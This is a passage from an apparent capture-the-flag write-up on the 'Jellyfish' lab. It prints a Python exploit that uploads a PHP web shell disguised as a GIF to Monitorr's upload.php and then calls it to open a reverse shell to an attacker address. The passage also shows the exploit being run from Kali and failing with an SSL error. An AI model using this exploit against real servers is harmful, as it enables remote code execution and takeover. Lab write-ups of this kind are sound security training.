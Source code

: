 Let's have a look at the other exploit:

```text
import requests
import os
import sys

if len (sys.argv) != 4:
        print ("specify params in format: python " + sys.argv[0] + " target_url lhost lport")
else:
    url = sys.argv[1] + "/assets/php/upload.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/plain, */*; q=0.01", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "X-Requested-Wi>

    data = "-----------------------------31046105003900160576454225745\r\nContent-Disposition: form-data; name=\"fileToUpload\"; filename=\"she_ll.php\"\r\nContent-Type: image/gif\r\n\r\nGIF89a213213123<?php shell_exec(\"/bin/bash -c 'b>

    requests.post(url, headers=headers, data=data)

    print ("A shell script should be uploaded. Now we try to execute it")
    url = sys.argv[1] + "/assets/data/usrimg/she_ll.php"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:82.0) Gecko/20100101 Firefox/82.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", >
    requests.get(url, headers=headers)
```

Again another fairly short script, this one takes advantage of poor checking of user input, allowing us to upload a php shell that looks like an image. This is the important URL:

```text
url = sys.argv[1] + "/assets/php/upload.php"
```

Browsing to this path looks better:

![jellyfish-monitorr-rce](/assets/images/2021-04-26-16-49-49.png)

Let's try the exploit:

```text
┌──(root💀kali)-[~/thm/jellyfish]
└─# python 48980.py https://monitorr.robyns-petshop.thm/ 10.8.165.116 443
Traceback (most recent call last):
  File "48980.py", line 24, in <module>
    requests.post(url, headers=headers, data=data)
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 119, in post
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 61, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 530, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 643, in send
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/adapters.py", line 514, in send
requests.exceptions.SSLError: HTTPSConnectionPool(host='monitorr.robyns-petshop.thm', port=443): Max retries exceeded with url: //assets/php/upload.php (Caused by SSLError(SSLError(1, u'[SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed (_ssl.c:727)'),))
```
